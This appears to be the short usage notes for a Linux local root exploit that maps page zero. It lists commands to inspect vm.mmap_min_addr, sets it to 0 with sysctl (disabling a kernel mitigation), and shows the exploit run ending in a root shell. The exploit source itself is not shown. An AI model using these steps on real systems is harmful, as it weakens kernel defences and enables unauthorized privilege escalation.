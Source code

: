 Check the mmap_min_addr:
------------------------
cat /proc/sys/vm/mmap_min_addr

zgrep MMAP_MIN /proc/config.gz

/sbin/sysctl vm.mmap_min_addr

Changing the mmap_min_addr value:
---------------------------------
/sbin/sysctl vm.mmap_min_addr=0
        
Test the exploit:
-----------------
$ ./mmap

Page 0x0 mmaped:0xbfde0cd8[(nil)]

Send the command...

[+] enjoy the shell

sh-4.3# id

uid=0(root) gid=0(root) groups=0(root)

